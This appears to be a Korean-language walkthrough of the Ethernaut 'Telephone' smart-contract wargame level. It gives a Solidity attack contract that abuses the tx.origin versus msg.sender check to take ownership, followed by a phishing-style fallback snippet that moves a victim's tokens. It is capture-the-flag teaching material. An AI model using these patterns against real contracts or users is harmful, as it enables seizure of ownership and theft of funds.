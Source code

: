 https://honey-push-30b.notion.site/Ethernaut-Telephone-589e6a0e3fce47b6b984daee74fbb3a1
![telephone.PNG](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/3f4ea603-baa7-46e6-819d-caa0fb883f03/telephone.png)

> 
> 
> 
> 이번 문제를 해결하기 위해서는
> 
> 1. 컨트랙트의 Ownership을 얻으세요 
> 
> 힌트
> 
> - 개발자 도구 콘솔에서 help() 명령어를 사용해 보세요.

코드는 아래와 같다.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Telephone {

  address public owner;

  constructor() public {
    owner = msg.sender;
  }

  function changeOwner(address _owner) public {
    if (tx.origin != msg.sender) {
      owner = _owner;
    }
  }
}
```

코드가 상당히 간단해서 무엇을 해야 할지가 명확하다. tx.origin과 msg.sender가 같지 않게 하여 owner를 우리가 원하는 주소(나의 메타마스크 주소)로 변경시켜주면 된다.

# 코드 분석 및 공격 설계

이번 문제의 목적은 owner 권한을 얻는 것이며 owner 권한을 얻기 위해서는 tx.origin과 msg.sender가 다르게 하여 changeOwner 함수를 호출해주면 된다.

이를 위해서는 tx.origin과 msg.sender가 어떤 의미인지 짚어봐야 한다.

### EOA(External Owned Account)와 CA(Contract Account)

EOA(External Owned Account)는 공개 이더리움 주소와 개인키 조합을 의미하는데 쉽게 말해 지갑 주소라고 보면 된다. 이것을 이용하여 다른 계정과 이더리움을 송수신하고 스마트 컨트랙트에 트랜잭션을 보낼 수 있다. 메타마스크, 카이카스와 같은 지갑에서 만든 계정이 EOA다.

CA(Contract Account)는 컨트랙트 계정을 의미하는데 외부 소유 계정과 다르게 개인키가 존재하지 않고, 스마트 컨트랙트를 블록체인에 배포할 때 생성된다. 컨트랙트 계정 대신 컨트랙트로만 표시하기도 한다. 즉 컨트랙트를 짜서 컨트랙트에 요청을 보내게 되면 CA를 통해 컨트랙트의 함수를 실행할 수 있다.

### tx.origin과 msg.sender

스마트 컨트랙트 코드를 우리 지갑의 주소(EOA)에서 트랜잭션을 발생시킬 수 있다. 이 때 tx.origin은 이 트랜잭션을 발생시키는 내 지갑주소(EOA)를 의미한다. 하지만 이경우 msg.sender는 현재 컨트랙트를 호출한 주소를 의미한다. 즉 msg.sender는 지갑주소(EOA)가 될수도 있고 컨트랙트 주소(CA)가될수도 있다.

즉 글로벌 변수 tx.origin은 트랜잭션의 발신자(호출의 첫번째 발신자)를 의미하고 msg.sender는 자신을 호출한 주소를 의미한다. 

따라서 owner 권한을 얻기 위해서는 컨트랙트 코드를 통해 Telephone의 changeOwner함수를 실행시키면 tx.origin은 내 지갑주소,msg.sender는 Telephone을 호출한 컨트랙트 주소가 되므로 tx.origin ! = msg.sender 조건을 통과하고 owner 권한을 내가 원하는 주소로 변경할 수 있다.

따라서 Telephone 컨트랙트의 changeOwner를 호출하는 컨트랙트 코드를 작성해보자.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Telephone {

  address public owner;

  constructor() public {
    owner = msg.sender;
  }

  function changeOwner(address _owner) public {
    if (tx.origin != msg.sender) {
      owner = _owner;
    }
  }
}

contract TelAttack {
    Telephone public telephone;
    constructor(address _teladdr) public{
        telephone = Telephone(_teladdr);
    }
    function attack(address _addr) public {
        telephone.changeOwner(_addr);
    }
}
```

Telephone 컨트랙트를 받아서 changeOwner 함수를 호출하되 내가 원하는 주소를 매개변수로 넘겨줄 수 있도록 공격 코드를 작성하였다. 

# 공격

먼저 get new instance를 통해 인스턴스를 생성하자.

![get new instance.PNG](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/43886706-6988-416d-9703-e22b753ec20a/get_new_instance.png)

트랜잭션을 허용해주어 인스턴스가 생성된 후에 인스턴스 주소를 확인하자.

![instance 주소.PNG](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/da45480b-ae07-4377-b98d-331530a9b87c/instance_%EC%A3%BC%EC%86%8C.png)

인스턴스 주소는 0x9f87048d24684531460c799ce920A631d11cc091 로 되어있는 것을 확인할 수 있다.

![level.PNG](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/fa1fb3be-45f4-4fee-a458-e5e545c4afeb/level.png)

level 컨트랙트에서 우리 문제 인스턴스를 만들었기 때문에 owner가 msg.sender임을 알 수 있고 이 owner 값을 바꾸기 위해서 changeOwner 함수를 호출하는 컨트랙트를 Remix에서 작성하자.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Telephone {

  address public owner;

  constructor() public {
    owner = msg.sender;
  }

  function changeOwner(address _owner) public {
    if (tx.origin != msg.sender) {
      owner = _owner;
    }
  }
}

contract TelAttack {
    Telephone public telephone;
    constructor(address _teladdr) public{
        telephone = Telephone(_teladdr);
    }
    function attack(address _addr) public {
        telephone.changeOwner(_addr);
    }
}

```

코드는 Telephone 컨트랙트 코드를 복사한 뒤 TelAttack 컨트랙트를 생성하여 내부에서 Telephone 컨트랙트를 받을 telephone 변수를 선언하고 생성자(constructor)를 통해 배포할 때 넣어준 Telephone 인스턴스 주소값으로 telephone 변수에 컨트랙트를 저장해준다.

그리고 attack 함수를 통해 내 메타마스크 주소를 파라미터로 넣어주어 telephone 컨트랙트의 changeOwner 함수를 호출하여 owner 권한을 얻어낼 것이다.

![TelephoneAttack.PNG](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/fa898b23-3998-424b-9d45-e82daf58db12/TelephoneAttack.png)

컨트랙트 폴더에 새롭게 TelephoneAttack.sol 파일을 만들고 코드를 입력해준다. 

![compile.PNG](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/b127da8f-cafc-4cba-bc23-d2ddc9ed3794/compile.png)

TelephoneAttack.sol 파일을 컴파일 해준다.

![Deploy.PNG](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/a992fc89-92c6-4334-89bf-845df80363b6/Deploy.png)

그리고 배포할때 생성자로 instance의 주소를 넣어주어 이 컨트랙트가 Telephone instance에 접근할 수 있도록 해준다.

![컨트랙트 배포끝.PNG](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/26c4e7f7-7651-488a-845d-cc9592c93888/%EC%BB%A8%ED%8A%B8%EB%9E%99%ED%8A%B8_%EB%B0%B0%ED%8F%AC%EB%81%9D.png)

배포하고 나면 이제 attack 함수를 실행할 수 있는데 이 함수를 실행하기 위해서는 owner가 될 주소가 필요하다. 우리 player의 주소로 설정해주자.

![내 주소.PNG](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/14fb89ca-b61c-416a-a6d4-79fd0b053cb7/%EB%82%B4_%EC%A3%BC%EC%86%8C.png)

개발자 도구 콘솔에서 player 명령어를 통해 player의 주소는'0x83b26d6A3D3FaBd9F0A5f1d69DCA1CE6cc4eA39a’ 임을 확인할 수 있다.

![공격.PNG](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/f4ce6e56-8c2a-4a15-a989-8dbfc9d12a62/%EA%B3%B5%EA%B2%A9.png)

이제 내 주소를 입력해주고 공격을 해보자. 트랜잭션을 허용해주면 컨펌이 뜬다.

 

![공격 성공.PNG](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/8b3b5912-ae17-410c-bee2-9d987fdbe61c/%EA%B3%B5%EA%B2%A9_%EC%84%B1%EA%B3%B5.png)

공격 함수가 컨펌이 되고 나서 컨트랙트의 owner가 정상적으로 내 주소로 바뀌었음을 확인할 수 있다. 이제 owner 권한을 얻었으므로 instance를 제출하면 개발자 도구 콘솔에서 클리어 했음을 알 수 있다.

 

![클리어.PNG](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/ca958b94-8fdb-4a79-9d29-69825062b54d/%ED%81%B4%EB%A6%AC%EC%96%B4.png)

클리어 성공!

클리어 후 페이지에서는 아래와 같은 내용을 볼 수 있다.

이 예제에서는 간단하지만 tx.origin과 msg.sender를 잘못 사용하면 피싱 스타일의 공격에 취약해진다. 

예를 들어보면

1. `tx.origin` 을 사용해서 보내는 사람을 정하는 코드가 있다고 가정하자

```
function transfer(address _to, uint _value) {
  tokens[tx.origin] -= _value;
  tokens[_to] += _value;
}

```

1. 해커가 공격대상에게 토큰 컨트랙트의 transfer 함수를 호출하는 악성 컨트랙트를 보내 실행하게 만든다. 

```
function () payable {
  token.transfer(attackerAddress, 10000);
}

```

1. 그러면 `tx.origin` 은 공격 대상의 주소가 되고 ( `msg.sender` 는 악성 컨트랙트의 주소임), 피해자의 주소에서 해커의 주소로 돈이 옮겨지게 된다.
